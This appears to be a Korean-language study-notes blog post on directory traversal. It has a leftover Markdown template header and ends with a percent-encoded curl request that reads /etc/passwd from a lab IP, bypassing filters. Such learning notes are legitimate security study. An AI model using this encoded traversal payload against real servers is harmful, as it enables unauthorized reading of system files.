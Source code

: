 ```yaml
---
layout: post
title: An exhibit of Markdown2
subtitle: Each post also has a subtitle
categories: markdown
tags:
  - example
  - markdown
---
```


#### 9.1.2. Identifying and Exploiting Directory Traversals

1. 옵시디언을 어떻게 쓰는줄 몰라서 일단 원래있던 게시물을 수정해본다.
2. 디렉토리 탐색 식별 및 활용
3. 이미 했네 ㅋㅋ

## 9.1.3. Encoding Special Characters
특수문자 인코딩

```java
../../
```
등의 스크립트는 웹 애플리케이션 동작을 남용하는 알려진 방법이기 때문에 웹서버, 웹 애플리케이션 방화벽 또는 웹 애플리케이션 자체에 의해 필터링됩니다.

다행히도 우리는 URL 인코딩, 퍼센트 인코딩 이라고 불리는 우회방법을 사용하여 필터링을 우회할 수 있다.

```shell
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

